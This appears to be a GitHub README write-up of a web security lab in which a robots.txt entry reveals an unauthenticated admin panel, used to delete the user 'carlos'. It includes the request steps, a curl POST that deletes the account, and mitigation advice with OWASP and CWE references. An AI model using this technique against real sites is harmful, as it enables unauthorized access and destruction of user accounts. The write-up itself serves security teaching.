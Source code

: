 # 🛡️ Unprotected Admin Functionality – robots.txt Disclosure

[![Lab Type](https://img.shields.io/badge/Lab-Web_Exploit-blue)](https://github.com/)  
[![Severity](https://img.shields.io/badge/Severity-High-red)](https://github.com/)  
[![Impact](https://img.shields.io/badge/Impact-Account_Compromise-orange)](https://owasp.org/)  
[![robots.txt](https://img.shields.io/badge/Weakness-robots.txt-lightgrey)](https://owasp.org/)  
[![Admin Panel](https://img.shields.io/badge/Feature-Admin_Panel-yellow)](https://owasp.org/)  

---

## 📑 Table of Contents

1. [Overview](#overview)  
2. [Objective](#objective)  
3. [Vulnerability Description](#vulnerability-description)  
4. [Exploitation Steps](#exploitation-steps)  
5. [Proof of Exploit](#proof-of-exploit)  
6. [Proof of Concept](#proof-of-concept)  
7. [Mitigation](#mitigation)  
8. [References](#references)  

---

## Overview

This lab demonstrates how **unprotected admin functionality** can be discovered via `robots.txt`. By following a disallowed path, an attacker gains direct access to the administrator panel and can perform unauthorized actions such as account deletion.  

---

## Objective

- Understand how sensitive functionality may be exposed through `robots.txt`  
- Learn why access control is essential even for hidden paths  
- Practice exploiting weak or missing authorization controls  

---

## Vulnerability Description

The `robots.txt` file is meant to guide search engine crawlers, but it should **never be used to hide sensitive paths**.  

In this lab:  
- `/robots.txt` disclosed a hidden `/administrator-panel` path  
- The admin panel was accessible without authentication  
- Attackers could perform destructive actions, including deleting users  

---

## Exploitation Steps

1. Access `robots.txt` at the lab root:  

   ```
   GET /robots.txt HTTP/1.1
   Host: target.com
   ```

   Response:  
   ```
   User-agent: *
   Disallow: /administrator-panel
   ```

2. Navigate to `/administrator-panel`.  
3. The admin panel loads without login.  
4. Select target user (`carlos`) and delete the account.  

---

## PROOF OF EXPLOIT

```

<img width="1917" height="1079" alt="Unprotected admin functionality" src="https://github.com/user-attachments/assets/6e414a59-b9d1-48a2-a28b-919f6cd862c7" />

```

Response:  
```
HTTP/1.1 200 OK
User carlos deleted successfully
```

---

## Proof of Concept

Using `curl` to delete **carlos** directly:  

```bash
curl -X POST "http://target.com/administrator-panel/delete" \
     -d "username=carlos"
```

---

## Mitigation

* **Do not rely on `robots.txt`** for security; it should never disclose sensitive paths  
* **Enforce authentication & authorization** on all admin functionality  
* **Implement role-based access control (RBAC)**  
* **Log and monitor admin activity** to detect abuse  

---

## References

* [OWASP: Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)  
* [CWE-284: Improper Access Control](https://cwe.mitre.org/data/definitions/284.html)  
* [Google robots.txt Specification](https://developers.google.com/search/docs/crawling-indexing/robots/intro)  
